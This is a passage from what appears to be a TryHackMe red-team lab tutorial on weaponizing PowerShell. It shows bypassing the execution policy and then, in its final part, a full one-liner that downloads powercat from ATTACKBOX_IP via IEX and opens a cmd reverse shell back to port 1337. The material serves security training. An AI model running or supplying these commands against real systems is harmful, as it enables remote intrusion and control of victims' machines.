

PSH
Powershell - PSH
PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses. Check out the TryHackMe room, Hacking with PowerShell for more information about PowerShell.
Red teamers rely on PowerShell in performing various activities, including initial access, system enumerations, and many others. Let's start by creating a straightforward PowerShell script that prints "Welcome to the Weaponization Room!" as follows,
Write-Output "Welcome to the Weaponization Room!"
Save the file as thm.ps1. With the Write-Output, we print the message "Welcome to the Weaponization Room!" to the command prompt. Now let's run it and see the result.
powershell -File thm.ps1
Execution Policy
PowerShell's execution policy is a security option to protect the system from running malicious scripts. By default, Microsoft disables executing PowerShell scripts .ps1 for security purposes. The PowerShell execution policy is set to Restricted, which means it permits individual commands but not run any scripts.
You can determine the current PowerShell setting of your Windows as follows,
Get-ExecutionPolicy
We can also easily change the PowerShell execution policy by running:
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
Bypass Execution Policy
Microsoft provides ways to disable this restriction. One of these ways is by giving an argument option to the PowerShell command to change it to your desired setting. For example, we can change it to bypass policy which means nothing is blocked or restricted. This is useful since that lets us run our own PowerShell scripts.
In order to make sure our PowerShell file gets executed, we need to provide the bypass option in the arguments as follows,
powershell -ex bypass -File thm.ps1
Gaining Reverse Shell Access Using Powershell
Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is powercat. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.
Link: https://github.com/besimorhino/powercat.git

Now, we need to set up a web server on that AttackBox to serve the powercat.ps1 that will be downloaded and executed on the target machine. Next, change the directory to powercat and start listening on a port of your choice. In our case, we will be using port 8080
On the AttackBox, we need to listen on port 1337 using nc to receive the connection back from the victim.

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
Now that we have executed the command above, the victim machine downloads the powercat.ps1 payload from our web server (on the AttackBox) and then executes it locally on the target using cmd.exe and sends a connection back to the AttackBox that is listening on port 1337. After a couple of seconds, we should receive the connection call back: